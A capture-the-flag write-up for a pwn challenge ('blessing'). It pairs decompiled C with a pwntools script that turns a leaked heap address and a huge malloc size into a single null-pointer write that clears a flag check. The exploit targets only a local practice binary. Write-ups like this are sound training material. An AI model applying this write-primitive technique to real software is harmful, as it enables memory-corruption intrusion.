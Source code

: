 * Description

In the realm of Eldoria, where warrior roam, the Dragon's Heart they seek, from bytes to byte's
home. Through exploits and tricks, they boldly dare, to conquer Eldoria, with skill and flair.

* Solution
Run the program, *we'll get a leak of address*. and let's input the length of song, then give the
content of it. Keep the leak of address in mind, let's load it to disassembler:
#+begin_src c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  size_t size; // [rsp+8h] [rbp-28h] BYREF
  unsigned __int64 i; // [rsp+10h] [rbp-20h]
  _QWORD *v6; // [rsp+18h] [rbp-18h]
  void *buf; // [rsp+20h] [rbp-10h]
  unsigned __int64 v8; // [rsp+28h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  setup();
  banner();
  size = 0;
  v6 = malloc(0x30000u);
  *v6 = 1;
  printstr(
    "In the ancient realm of Eldoria, a roaming bard grants you good luck and offers you a gift!\n"
    "\n"
    "Please accept this: ");
  printf("%p", v6);
  sleep(1u);
  for ( i = 0; i <= 0xD; ++i )
  {
    printf("\b \b");
    usleep(60000u);
  }
  puts("\n");
  printf(
    "%s[%sBard%s]: Now, I want something in return...\n\nHow about a song?\n\nGive me the song's length: ",
    "\x1B[1;34m",
    "\x1B[1;32m",
    "\x1B[1;34m");
  __isoc99_scanf("%lu", &size);
  buf = malloc(size);
  printf("\n%s[%sBard%s]: Excellent! Now tell me the song: ", "\x1B[1;34m", "\x1B[1;32m", "\x1B[1;34m");
  read(0, buf, size);
  *(_QWORD *)((char *)buf + size - 1) = 0;
  write(1, buf, size);
  if ( *v6 )
    printf("\n%s[%sBard%s]: Your song was not as good as expected...\n\n", "\x1B[1;31m", "\x1B[1;32m", "\x1B[1;31m");
  else
    read_flag();
  return 0;
}
#+end_src

Obviously, the program do following thing:
1. ~malloc~ a large chunk memory, then initialize =QWORD= byte with 0.
2. leak that chunk memory address to us.
3. use ~scanf~ to get the size of song.
4. ~malloc~ with the =user control= size.
5. ~read~ data into that memory return by above ~malloc~, without arguments check.
6. initialize the (memory_addr + user control size - 1) = 0.
7. check first ~malloc~ memory's initialzation is still work.
   
Our goal is to overwrite the memory of ~v6~ with 0. according to the behavior of the program, there
only one place that would be leveraged:
#+begin_src c
*(_QWORD *)((char *)buf + size - 1) = 0;
#+end_src
the ~size~ variable's value can be controlled by us, and ~buf~ is return value within that ~size~. And
there is no checking for ~buf~'s value.

So, we only need to make ~buf~'s value equal to zero, and ~size - 1~ equal to the leak address.

#+begin_src python :results output
#!/usr/bin/env python3

from pwn import *

io = process('./blessing')

_ = io.recvuntil(b'accept this: ')
leak_addr = int(io.recvline().split(b'\x08\x20\x08')[0], 16)

print(f'leak address: {hex(leak_addr)}, {leak_addr}')

_ = io.sendlineafter(b'length: ', str(leak_addr + 1).encode())
io.sendline() # for content
_ = io.recvuntil(b'tell me the song: ')
print(io.readline()[:-1].decode())
#+end_src
